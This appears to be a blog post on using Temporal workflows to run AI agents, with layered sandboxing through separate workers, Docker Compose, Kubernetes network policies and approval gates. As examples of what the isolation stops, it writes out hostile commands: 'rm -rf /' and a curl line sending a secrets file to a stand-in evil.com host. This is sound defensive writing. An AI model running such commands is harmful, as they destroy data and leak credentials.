









# Why Temporal

Well, if you haven't used Temporal yet, it's amazing. I will not rehash their documentation. But the TLDR is that everything that happens is:

1. Visible - excellent for debugging and/or monitoring because everything that happens is visible in the UI.
1. Reliable - meaning it can retry or set time limits. In practice, this means less boilerplate code.
1. Simpler - you can focus on application code and less about how to scale in production. 

How does this help in agentic systems? Let's find out. 


## Visibility

To provide a simple mental model, functions are Temporal activities, and a chain of Temporal activities is a workflow. Agentic systems have to run a chain of... stuff. We can comprise an agentic system as a Temporal workflow, and everything that happens in the workflow, we can see in the UI:



If you click into any of the green bars, Temporal lets us see the 
input and outputs:



In agentic workflows, there is a lot of orchestration both by the agent, and external to the agent. We can view all of these in the UI, transparent to the end user. 

Next, agents can delegate tasks to subagents. In the screenshot below, we can see the `SubAgentWorkflow`, which in this case is the main agent delegating a task to a subagent:



If we "click" into the `SubAgentWorkflow`, we can easily see everything the sub-agent did, as Temporal activities. 



When the task is highly complex, and requires several subagents (if the LLM decides this is the best way to tackle the task), we can see this visually in the Temporal UI as well in the form of parallel `SubAgentWorkflow`s being kicked off:



When all these `SubAgentWorkflow`s complete, as before, we can click into each of them and view what happened in every single step. Below is an example of an agent kicking off other subagents (which successfully completed):



Below is a view of the overall main Temporal UI whilst everything 
is running:



## Safety and Sandboxing

A common concern with agentic systems is: what happens when the agent runs `rm -rf /`? Or installs a crypto miner? Or exfiltrates your `.env` file?

Most agent frameworks run everything in a single process — the same code that calls the LLM also executes bash commands, reads files, and holds API keys. One bad tool call and the entire system is compromised.

Temporal gives us natural sandboxing boundaries because **activities run on workers, and workers are just processes**. Different workers can run on different machines, in different containers, with different Linux users and permissions. Temporal handles all the routing. The workflow just says "run this activity on this task queue" — it doesn't care where the worker lives.

There are several layers of control available, from innermost to outermost:

- **Activity separation** — Each tool is a Temporal activity. Task queues let you route different activities to different workers — the code that runs `bash` and the code that calls the LLM don't have to live in the same process, container, or machine. Task queues themselves aren't a security boundary (any worker can poll any queue), but they give you the routing seam to put each activity behind different infrastructure.
- **Linux user permissions** — Each container runs as a restricted non-root user. The bash worker can only write to `/workspace`. Application code is read-only. No sudo, no package installation.
- **Container boundaries** — Docker gives us read-only filesystems, network isolation, and CPU/memory limits per worker. The bash worker can't reach the internet. The LLM worker can't touch the filesystem.
- **Kubernetes network policies** — In production, network policies enforce that bash worker pods can only talk to Temporal. Even `curl https://evil.com` gets dropped at the network level.
- **Temporal-level controls** — Namespace isolation between tenants, activity timeouts that kill hung commands, workflow timeouts that clean up idle sessions.
- **Approval gates** — Temporal signals enable human-in-the-loop approval. The workflow pauses, sends a message asking for permission, and waits for a signal back. No polling, no timeouts.

Each layer is independent. You can start with just Docker Compose and add Kubernetes when you scale. The application code doesn't change.

Let's walk through a concrete scenario to see how these layers work together.

---

### Scenario: Locking down a production deployment

Imagine we're deploying openpaw for a team. The agent has access to bash, file I/O, web search, and an LLM. We want to ensure that even if the LLM goes rogue, the blast radius is contained.

#### Step 1: Split activities into separate workers

Today, our system has two workers sharing one task queue. We split them by responsibility:

| Worker | Task Queue | Activities | What it needs |
|---|---|---|---|
| orchestrator | `agent-tasks` | workflow only | Temporal connection |
| bash-worker | `bash-tasks` | `execute_bash_command`, file ops | `/workspace` mount |
| llm-worker | `llm-tasks` | `call_llm`, `compact_history` | API keys |
| whatsapp-listener | `whatsapp-tasks` | `send_whatsapp_message` | WhatsApp session |

No workflow code changes needed — just assign different `task_queue` values when calling `execute_activity`. Temporal routes each activity to whichever worker is polling that queue.

To be clear: task queues are a routing mechanism, not a security boundary. Any worker could poll any queue if it wanted to. The security comes from the infrastructure you put *behind* each queue — the locked-down containers, restricted users, and network policies in the following steps. Task queues just make it easy to split activities across those different environments.

The key relationship to understand: each **task queue** is polled by a **worker**, and each worker registers specific **activities**. If that worker is compromised, every activity on it is exposed — that's the blast radius. So the decision of how to group activities onto workers (and therefore task queues) directly determines how much damage a single compromise can do. Fewer workers = simpler to operate, but larger blast radius. More workers = finer isolation, but more moving parts to manage.

#### Step 2: Lock down the bash worker with Linux permissions

The bash worker is the most dangerous — it runs arbitrary shell commands. Here's its Dockerfile. Below is an example Dockerfile reducing permissions:

```dockerfile
FROM python:3.13-slim

# Restricted user: no home directory, no login shell
RUN useradd --no-create-home --shell /usr/sbin/nologin sandbox

# Only install what bash commands might need
RUN apt-get update && apt-get install -y --no-install-recommends \
    git curl jq && rm -rf /var/lib/apt/lists/*

# Application code owned by root — read-only to sandbox
COPY --chown=root:root src/ /app/src/
WORKDIR /app

# Workspace is the only writable directory
RUN mkdir /workspace && chown sandbox:sandbox /workspace
VOLUME /workspace

USER sandbox
```

What this gives us:

- `sandbox` **cannot modify application code** — `/app/src/` is owned by root.
- `sandbox` **can only write to `/workspace`** — `write_file("/etc/passwd", ...)` is blocked by the OS.
- `sandbox` **has no login shell** — no interactive sessions even with code execution.
- **No sudo, no `apt install`** — the agent can't install packages at runtime.

Compare this to the LLM worker, which needs none of the above:

```dockerfile
FROM python:3.13-slim

RUN useradd --no-create-home --shell /usr/sbin/nologin llmworker
COPY --chown=root:root src/ /app/src/
WORKDIR /app

# No volumes at all — no filesystem access
USER llmworker
```

API keys come via environment variables. No filesystem, no bash, no tools. Even if the SDK has a vulnerability, the blast radius is the API key — not your files.

The LLM worker has a much smaller attack surface — it only makes outbound API calls via Python. There's no shell, no filesystem writes, no user-supplied commands. It still runs as a non-root user, but it doesn't need the same level of hardening as the bash worker.

#### Step 3: Add container-level boundaries with Docker Compose

```yaml
services:
  bash-worker:
    image: openpaw-bash-worker
    read_only: true                    # Entire filesystem is read-only
    tmpfs:
      - /tmp:size=100M                 # Small writable tmpfs for temp files
    volumes:
      - ./workspace:/workspace         # Only mount what's needed
    deploy:
      resources:
        limits:
          cpus: "1.0"                  # Cap at 1 CPU core
          memory: 512M                 # Cap at 512MB RAM
    networks:
      - temporal-internal              # internal network — no internet

  llm-worker:
    image: openpaw-llm-worker
    read_only: true
    environment:
      - OPENROUTER_API_KEY=${OPENROUTER_API_KEY}
    deploy:
      resources:
        limits:
          cpus: "0.5"
          memory: 256M
    networks:
      - temporal-internal
      - llm-egress                     # Bridge network — can reach LLM API

  whatsapp-listener:
    image: openpaw-whatsapp
    volumes:
      - ./neonize.db:/app/neonize.db   # WhatsApp session only
    networks:
      - temporal-internal
      - whatsapp-egress                # Bridge network — can reach WhatsApp

networks:
  temporal-internal:
    internal: true                     # No route to host/internet
  llm-egress: {}                       # Normal bridge — has internet
  whatsapp-egress: {}                  # Normal bridge — has internet
```

Now we have:

- **`read_only: true`** — the entire container filesystem is immutable. The agent can't persist anything outside `/workspace`.
- **Network isolation** — the bash worker is only on the `temporal-internal` network, which is marked [`internal: true`](https://docs.docker.com/reference/compose-file/networks/). From the [Docker docs](https://docs.docker.com/reference/cli/docker/network/create/#network-internal-mode---internal): *"Containers on an internal network may communicate between each other, but not with any other network, as no default route is configured and firewall rules are set up to drop all traffic to or from other networks."* The bash worker can talk to Temporal but cannot make HTTP requests, download files, or exfiltrate data. Workers that need external access (LLM, WhatsApp) join a second normal bridge network for egress.
- **Resource limits** — a `while true` loop burns the bash worker's 1 CPU / 512MB. Everything else is unaffected. Temporal's activity timeout kills the stuck activity.

#### Step 4: Harden further with Kubernetes

In production, Kubernetes gives us [network policies](https://kubernetes.io/docs/concepts/services-networking/network-policies/) and [security contexts](https://kubernetes.io/docs/tasks/configure-pod-container/security-context/) — the most powerful isolation tools. 

**Bash worker deployment** with [pod and container security contexts](https://kubernetes.io/docs/tasks/configure-pod-container/security-context/):

```yaml
apiVersion: apps/v1
kind: Deployment
metadata:
  name: bash-worker
spec:
  replicas: 3                            # Scale independently
  template:
    spec:
      securityContext:                    # Pod-level security context
        runAsNonRoot: true
        runAsUser: 1000
      containers:
        - name: bash-worker
          image: openpaw-bash-worker
          securityContext:                # Container-level security context
            readOnlyRootFilesystem: true
            allowPrivilegeEscalation: false
          resources:
            limits:
              cpu: "1"
              memory: "512Mi"
          volumeMounts:
            - name: workspace
              mountPath: /workspace
      volumes:
        - name: workspace
          persistentVolumeClaim:
            claimName: workspace-pvc     # NFS or EFS for shared access
```

Note: `runAsNonRoot` and `runAsUser` are [pod-level fields](https://kubernetes.io/docs/tasks/configure-pod-container/security-context/#set-the-security-context-for-a-pod) (apply to all containers), while `readOnlyRootFilesystem` and `allowPrivilegeEscalation` are [container-level fields](https://kubernetes.io/docs/tasks/configure-pod-container/security-context/#set-the-security-context-for-a-container).

**[NetworkPolicy](https://kubernetes.io/docs/concepts/services-networking/network-policies/) — bash workers can only talk to Temporal:**

```yaml
apiVersion: networking.k8s.io/v1
kind: NetworkPolicy
metadata:
  name: bash-worker-policy
spec:
  podSelector:
    matchLabels:
      app: bash-worker
  policyTypes:
    - Egress
  egress:
    # Allow traffic to Temporal server
    - to:
        - podSelector:
            matchLabels:
              app: temporal
      ports:
        - port: 7233
    # Allow DNS (port 53) — required for resolving service names like "temporal"
    # Without this, the pod can't look up any hostname and all connections fail
    - to:
        - namespaceSelector: {}
      ports:
        - port: 53
          protocol: UDP
```

Even if the agent runs `curl https://evil.com/exfiltrate?data=$(cat /workspace/secrets.txt)`, the network policy drops the packet. No egress rule allows port 80/443 to external IPs, so the connection is denied.

**NetworkPolicy — LLM workers can reach HTTPS but nothing else:**

```yaml
apiVersion: networking.k8s.io/v1
kind: NetworkPolicy
metadata:
  name: llm-worker-policy
spec:
  podSelector:
    matchLabels:
      app: llm-worker
  policyTypes:
    - Egress
  egress:
    # Temporal server (port 7233)
    - to:
        - podSelector:
            matchLabels:
              app: temporal
      ports:
        - port: 7233
    # Outbound HTTPS (port 443) — for LLM API calls
    - to:
        - ipBlock:
            cidr: 0.0.0.0/0
      ports:
        - port: 443
    # DNS (port 53)
    - to:
        - namespaceSelector: {}
      ports:
        - port: 53
          protocol: UDP
```

Additional Kubernetes benefits:

- **Independent scaling** — bash workers scale with tool use, LLM workers scale with API demand. HPA can scale based on Temporal task queue depth.
- **Shared filesystem** — multiple bash worker pods mount the same workspace via a [`ReadWriteMany` PVC](https://kubernetes.io/docs/concepts/storage/persistent-volumes/#access-modes) (NFS, EFS). The agent doesn't know which pod runs its command.

#### The full picture

The agent says "run `ls -la`". Here's what happens:

1. **Workflow** (orchestrator pod) creates an activity task on the `bash-tasks` queue.
2. **Temporal server** routes the task to a bash worker pod.
3. **Kubernetes network policy** ensures the bash pod can only talk to Temporal.
4. **Container security context** ensures the process runs as non-root with a read-only filesystem.
5. **Linux user permissions** ensure the process can only write to `/workspace`.
6. The result flows back through Temporal to the workflow. The orchestrator never executed anything itself.

Each layer is independent. Start with Docker Compose (steps 1-3) and add Kubernetes (step 4) when you scale. The application code doesn't change — same workflow, same activities, same task queues.

#### Multi-tenant extension

This model extends to multi-tenant setups. Different user groups get different worker pools:

- **Trusted users** — workers with more tools, network access, larger resource limits.
- **Untrusted users** — restricted tool set, no network, tight limits.
- **Admin users** — access to deployment tools, database queries, etc.

The workflow logic stays the same — you just route activities to different task queues on different machines based on the user's trust level.

#### Approval gates

Temporal signals make it straightforward to add human-in-the-loop approval. Before executing a dangerous activity, the workflow can:

1. Send a request to a human (via WhatsApp, Slack, email — it's just another activity).
2. Wait for an approval signal back.
3. Proceed or abort based on the response.

The workflow just pauses. No polling, no timeouts (well, you can add one). Temporal keeps the workflow state alive for as long as needed and does so efficiently.

Below you can see the approval gate in action in terminal:



Or in whatsapp (with a typo):




